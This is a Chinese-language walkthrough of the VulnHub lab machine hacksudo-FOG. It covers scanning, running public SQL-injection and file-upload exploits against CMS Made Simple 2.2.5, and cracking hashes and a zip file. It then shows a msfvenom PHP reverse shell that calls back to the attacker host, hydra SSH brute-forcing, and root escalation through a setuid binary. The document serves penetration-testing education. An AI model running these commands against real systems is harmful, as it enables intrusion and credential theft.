# 目标

Find the **user.txt** and **root.txt** flag.

---

# 信息收集
## 1.1 主机发现
```shell
nmap -sn 192.168.64.0/24 --max-rate 1000
```

这台靶机的IP地址是 `192.168.64.17`

## 1.2 端口扫描
**使用TCP SYN扫描**
```shell
nmap -sS 192.168.64.17 -p- --max-rate 1000 -oA nmap-scan/syn-port
```


**使用UDP扫描**
```shell
nmap -sU 192.168.64.17 --top-ports 100 --max-rate 1000 -oA nmap-scan/udp-port
```


**有RPC开放，那就查看一下**
```shell
rpcinfo -p 192.168.64.17
```


**有nfs开放，尝试着直接去挂载一下**
```shell
sudo mount -t nfs 192.168.64.17:/ /tmp
sudo mount -t nfs -o vers=4 192.168.64.17:/ /tmp
```
无法挂载，使用nmap扫描一下：
```shell
nmap -p 111,2049 --script=nfs-ls,nfs-showmount 192.168.64.17
```
确实没有可挂载的内容。

## 1.3 浏览器获取信息

访问`http://192.168.64.17:80`:


查看源码，没看到有什么信息。

直接扫描网站目录：
```shell
ffuf -u http://192.168.64.17:80/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -e .zip,.txt,.php -t 20 -rate 20 -p 0.1-0.5 -ac
```

有一个dict.txt的像是密码的文件。下载下来：
```shell
wget http://192.168.64.17:80/dict.txt
```

扫描到了2个目录。查看一下，
访问：`http://192.168.64.17:80/cms`

显然这是一个CMS系统，搜一下这是一个什么CMS系统：
```shell
whatweb http://192.168.64.17:80/cms
```

这是一个叫`CMS-Made-Simple 2.2.5`的系统。

访问：`http://192.168.64.17:80/fog`

这是网站里面的一个文件夹。

上面这个CMS的管理员登陆界面在`http://192.168.64.17:80/cms/admin/login.php`, 界面如下：


---

# 利用CMS系统漏洞进入系统

这个CMS-Made-Simple这个CMS系统的版本是2.2.5，随便在网上一搜，有比较严重的漏洞：

一个SQL注入漏洞，一个任意代码执行的漏洞。那么我们就可以先利用SQL注入找到用户名及密码，然后上传文件，实行远程任意代码执行。

**SQL注入寻找用户名及密码**

```shell
python3 46635.py -u http://192.168.64.17:80/cms
```
结果如下：

这是加盐的密码哈希值，使用*hashcat*结合*rockyou.txt*来爆破一下：
```shell
hashcat -m 10 -a 0 "cd658361db0ee541e7fc728aba5570d3:21ca796356464b52" /usr/share/wordlists/rockyou.txt
hashcat -m 20 -a 0 "cd658361db0ee541e7fc728aba5570d3:21ca796356464b52" /usr/share/wordlists/rockyou.txt
hashcat -m 10 -a 0 "cd658361db0ee541e7fc728aba5570d3:21ca796356464b52" dict.txt
hashcat -m 20 -a 0 "cd658361db0ee541e7fc728aba5570d3:21ca796356464b52" dict.txt
```
没有破解出来。🌚

> `-m 10` 表示 `hash=md5{$password:$salt}`
> `-m 20` 表示 `hash=md5{$salt:$password}`

**尝试登陆FTP**
使用msf里面的模块：*auxiliary/scanner/ftp/ftp_login*

可以登陆，直接登陆，然后可以获取到下列文件：
- flag1.txt 拿到其中一个flag了
- authors.txt
- installfog
- secr3tSteg.zip
解压这个zip文件需要密码，直接破解：
```shell
zip2john secr3tSteg.zip > zip.hash
john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
```
破解出来的密码是: `fooled`
解压这个zip文件，获取到里面有2个文件：
- secr3t.txt
    ```text
    localhost = server IP 
    ```
- hacksudoSTEGNO.wav 这是一个音频文件，听了之后感觉没啥信息，但是这个文件的名字似乎是在提醒我们有隐写。

去github上面搜索一个*hide wave*项目来提取信息：
找到一个：https://github.com/techchipnet/HiddenWave
```shell
python3 ExWave.py -f hacksudoSTEGNO.wav
```
显示如下：

根据上面提供的信息，上面得到的“密码”应该是经过凯撒加密的，写一个*crack.py*直接打印出所有25种可能：
```python
def decrypt_caesar(ciphertext):
    print(f"--- 正在爆破密文: {ciphertext} ---\n")
    for shift in range(1, 26):
        plaintext = ""
        for char in ciphertext:
            if char.isalpha():
                # 判断大小写并计算偏移
                ascii_offset = 65 if char.isupper() else 97
                decrypted_char = chr((ord(char) - ascii_offset - shift) % 26 + ascii_offset)
                plaintext += decrypted_char
            else:
                # 标点符号和空格保持不变
                plaintext += char
        print(f"偏移量 {shift:2d}: {plaintext}")

# 替换为你需要破解的密文
encrypted_text = "zzzz.orfdokrvw/irj Xvhuqdph=irj:sdvvzrug=kdfnvxgrLVUR" 
decrypt_caesar(encrypted_text)
```
从打印出的结果可以看出：`wwww.localhost/fog Username=fog:password=hacksudoISRO`
这就可以得到登陆CMS的账户与密码。

**上传恶意php脚本**
根据上面搜索出来的漏洞，有一个上传文件，然后就是远程任意代码执行的漏洞。
生成php反弹反弹脚本：
```shell
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.64.2 lport=1025 -e php/base64 -f raw -o shell.php
```

```shell
python3 44976.py
```


已经上传上去了。

**利用远程代码执行漏洞，建立反弹连接**
使用msf使用`exploit/multi/handler`.

访问连接：`http://192.168.64.17/cms/uploads/shell.php`


成功进入系统。

---

# 系统提权

**查看/etc/passwd这个文件**
```shell
cat /etc/passwd
```
显示如下：


**使用rockyou.txt来全部爆破一下这些用户**
```shell
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.64.17
```
哈哈，爆破成功了一个，
- username: `isro`
- password: `qwerty`

**直接登陆ssh, 寻找提权路径**
```shell
sudo -l
```
家目录下有一个fog文件夹，里面有可执行文件.

```shell
cd fog
strings fog
```
显示如下：
```text
/lib64/ld-linux-x86-64.so.2
setuid
system
__cxa_finalize
setgid
__libc_start_main
libc.so.6
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u/UH
[]A\A]A^A_
python
;*3$"
GCC: (Debian 10.2.1-6) 10.2.1 20210110
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.0
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
si.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
_edata
system@GLIBC_2.2.5
__libc_start_main@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_csu_init
__bss_start
main
setgid@GLIBC_2.2.5
__TMC_END__
_ITM_registerTMCloneTable
setuid@GLIBC_2.2.5
__cxa_finalize@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.got.plt
.data
.bss
.comment
```
从上面可以得到关键词：
- *setuid*
- *setgid*
- *system*

这个程序虽然运行以当前用户来启动，但很有可能中间会有改变权限用户的事情发生。可以试着运行一下：
```shell
./fog
```
出现的是python界面，查看一下当前用户的名字：
```shell
>>> import os
>>> os.system('whoami')
```
输出的竟然是root!!! 🌝

那还说啥，直接启动一个shell:
```shell
>>> os.system('/bin/bash')
```


---
---

# 硬件与软件平台
## 硬件
- Apple Macbook pro M1-Pro 32G 512G
- `macOS 14.8.5`
- `UTM虚拟机`

## 软件
kali
- IP: `192.168.64.2`
- OS Realease: `debian 2025.4`
- `Arm64`

靶机hacksudo-FOG: 
- `https://www.vulnhub.com/entry/hacksudo-fog,697/`

---

> 水平有限，有不足、错误之处欢迎指出。🧐